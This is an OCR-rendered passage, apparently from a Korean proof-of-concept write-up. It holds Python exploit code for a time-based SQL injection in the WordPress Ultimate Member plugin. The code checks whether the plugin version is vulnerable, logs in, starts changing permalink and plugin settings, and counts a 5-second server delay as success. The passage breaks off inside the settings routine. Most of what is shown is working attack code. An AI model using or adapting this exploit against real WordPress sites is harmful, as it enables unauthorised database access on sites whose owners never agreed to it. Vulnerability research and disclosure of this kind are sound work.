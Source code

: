 ```python

    if '"success":true' in response.text and elapsed_time >= 5:
        print("[bold green][+] SQL injection successful: 5-second delay observed.")
    else:
        print("[bold red][-] SQL injection attempt failed.")
```

전체 PoC 코드

```python
import re
import sys
import hashlib
import requests
from rich import print

# Constants
TARGET = "http://localhost:8000"
PROXY_SERVER = "http://localhost:8080"
proxies = {
    "https": PROXY_SERVER,
    "http": PROXY_SERVER,
}

def check_version(target):
    """Check if the WordPress plugin version is vulnerable."""
    print("[bold yellow][+] Searching for vulnerable versions...")
    try:
        response = requests.get(f"{target}/wp-content/plugins/ultimate-member/readme.txt", verify=False)
        version = re.search(r"Stable tag: (.*)", response.text).group(1)
    except Exception:
        print("[bold red][-] Error 404 - Version not found!")
        sys.exit(0)

    version_number = int(version.replace('.', ''))
    if 212 < version_number < 283:
        print(f"[bold green][+] {version} - ✅ Vulnerable!")
    else:
        print(f"[bold red][-] {version} - ❎ Not Vulnerable!")
        sys.exit(0)

def get_login_session(username, password):
    """Log in to the WordPress site and return the session object."""
    session = requests.session()
    data = {
        "log": username,
        "pwd": password,
        "wp-submit": "Login",
        "testcookie": "1",
    }

    response = session.post(f"{TARGET}/wp-login.php", data=data, proxies=proxies)
    if any("wordpress_logged_in_" in cookie for cookie in response.cookies.keys()):
        print(f"[bold green][+] Successfully logged in with account {username}.")
        return session
    else:
        print("[bold red][-] Login Failed.")
        sys.exit(0)

def update_settings(session):
    """Update WordPress permalink and plugin settings."""
    # Update permalink settings
    permalink_response = session.get(f"{TARGET}/wp-admin/options-permalink.php", proxies=proxies)
```